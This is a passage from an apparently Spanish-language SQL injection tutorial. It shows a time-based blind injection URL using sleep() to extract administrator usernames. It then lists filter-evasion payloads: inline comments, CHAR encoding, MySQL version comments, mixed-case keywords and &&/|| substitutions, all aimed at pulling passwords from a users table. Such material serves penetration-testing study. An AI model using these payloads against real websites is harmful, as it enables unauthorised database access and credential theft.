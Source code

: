 Aun así se pueden realizar consultas con un sleep, esto permitirá extraer información dependiendo del tiempo que se demora la consulta.

```sql
http://dominio/noticias.php?id=1 AND 1=0 UNION
SELECT 1, substr(user_name,1,1)=‘a’ from administrators and sleep(5)
```

### Evitar filtros

Query de prueba:

```sql
SELECT usuario FROM usuarios WHERE usuario='' or 1=1 -- -'
```

- Poner comentarios en vez de ejemplos [ **'/\*\*/or/\*\*/1=0/\*\*/#**]
  - --X
  - /\*X\*/
  - %00

```sql
    SELECT usuario FROM usuarios WHERE usuario=''/**/or/**/1=0/**/#'
```

- Poner el payload en char [ **' CHAR(111, 114) 1=1**]

```sql
    SELECT usuario FROM usuarios WHERE usuario='' CHAR(111,114) 1=1-- -'
```

- Usar anti-comentarios [' and '1'='0' union/\*!select\*/pass from users#]

```sql
    SELECT usuario FROM usuarios WHERE usuario='' and '1'='0' union/*!select*/pass from users#'
```

- Usar ofuscación simple [ ' and '1'='0' uNiOn SeLeCt pass fRoM users# ]
  - SELECT -> SeLeCt

```sql
    SELECT usuario FROM usuarios WHERE usuario='' and '1'='0' uNiOn SeLeCt pass fRoM users#'
```

- Envitar AND y OR:
  - AND -> &&
  - OR -> ||
